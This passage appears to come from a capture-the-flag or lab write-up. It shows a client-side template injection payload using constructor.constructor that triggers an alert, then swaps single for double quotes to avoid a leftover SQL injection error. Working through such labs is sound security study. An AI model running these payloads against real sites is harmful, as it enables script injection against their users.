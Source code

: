 ![alt text](./.imgs/image10.png)

Now if you enter a payload such as

```js
{{constructor.constructor('alert(1)')()}}
```

It should alert `1`.

![alt text](./.imgs/image11.png)

Oops, forgot that the SQLi still exists and it will throw the error if we submit any malfunction payload with the character `'` in it. To overcome this, it's easy, just switch to `"` as a bypass.

```js
{{constructor.constructor("alert(1)")()}}
```

![alt text](./.imgs/image12.png)